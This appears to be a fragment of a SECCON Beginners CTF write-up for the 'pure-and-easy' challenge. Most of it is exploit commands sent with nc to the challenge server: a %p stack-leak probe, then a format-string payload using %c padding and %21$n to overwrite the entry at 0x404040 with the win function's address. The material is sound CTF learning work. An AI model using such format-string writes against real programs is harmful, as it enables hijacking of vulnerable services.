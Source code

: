 python3 -c 'print("".join([f"%{i}$p." for i in range(10, 20)]) + " AAAAAAAAAAAAA", end="")' | nc pure-and-easy.beginners.seccon.games 9000

0x404040: 4199233 (win)

```
echo -en '%4199233c%21$nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\x40\x40' | nc pure-and-easy.beginners.seccon.games 9000
```